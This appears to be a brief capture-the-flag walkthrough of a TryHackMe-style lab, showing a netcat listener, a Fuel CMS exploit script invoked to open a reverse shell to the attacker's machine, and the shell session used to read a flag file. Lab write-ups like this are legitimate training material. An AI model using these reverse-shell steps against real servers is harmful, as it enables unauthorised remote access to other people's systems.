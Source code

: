 

**Terminal 1**
Create a listener 
```
nc -lvnp 8080
```


**Terminal 2**
working exploit was located `/usr/share/exploits/vulnerabilitiescapstone`
I tried using the exploit i used on `searchsploit` but it was not working 

```
root@ip-10-10-50-19:~/task# python3 exploit.py 10.10.71.212

 ______         _ _____ ___  ___ _____
|  ___|        | /  __ \|  \/  |/  ___|
| |_ _   _  ___| | /  \/| .  . |\ `--.
|  _| | | |/ _ \ | |    | |\/| | `--. \
| | | |_| |  __/ | \__/\| |  | |/\__/ /
\_|  \__,_|\___|_|\____/\_|  |_/\____/
Tested on 1.4
Created by Ac1d

	Menu

exit     -	Exit app
shell_me -	Get a reverse shell (netcat)
help     -	Show this help

fuelCMS$ shell_me
Enter your attacking machine IP:PORT $ 10.10.50.19:8080

Hope you had your listener ready!!
```


Terminal 1 After Executing the exploit File
```
nc -lvnp 8080
Listening on [0.0.0.0] (family 0, port 8080)
Connection from 10.10.71.212 40466 received!
/bin/sh: 0: can't access tty; job control turned off
$ pwd; whoami
/var/www/html/fuelcms
www-data
$ cd /home/ubuntu
$ ls -altr
total 40
-rw-r--r-- 1 ubuntu ubuntu  807 Feb 25  2020 .profile
-rw-r--r-- 1 ubuntu ubuntu 3771 Feb 25  2020 .bashrc
-rw-r--r-- 1 ubuntu ubuntu  220 Feb 25  2020 .bash_logout
drwxr-xr-x 3 root   root   4096 Sep  3  2021 ..
drwx------ 2 ubuntu ubuntu 4096 Sep  3  2021 .ssh
drwx------ 2 ubuntu ubuntu 4096 Sep  3  2021 .cache
-rw-r--r-- 1 ubuntu ubuntu    0 Sep  3  2021 .sudo_as_admin_successful
-rw-rw-r-- 1 ubuntu ubuntu   23 Sep  3  2021 flag.txt
drwxrwxr-x 3 ubuntu ubuntu 4096 Sep  3  2021 .local
lrwxrwxrwx 1 ubuntu ubuntu    9 Sep  3  2021 .bash_history -> /dev/null
-rw------- 1 ubuntu ubuntu  178 Sep  3  2021 .Xauthority
drwxr-xr-x 5 ubuntu ubuntu 4096 Sep  3  2021 .
$ cat flag.txt
THM{ACKME_BLOG_HACKED}

```
